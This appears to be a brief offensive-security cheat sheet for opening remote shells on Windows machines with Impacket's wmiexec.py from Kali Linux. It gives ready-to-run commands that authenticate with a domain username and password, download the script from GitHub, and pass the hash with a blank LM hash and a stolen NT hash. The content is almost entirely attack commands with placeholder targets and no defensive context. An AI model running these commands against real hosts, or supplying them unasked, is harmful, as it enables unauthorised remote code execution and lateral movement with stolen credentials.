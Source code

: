 ```python - kali
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

or

```wget - kali
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/wmiexec.py
```

#### Shell with wmi.py
```python - kali
wmiexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```python - kali
wmiexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```

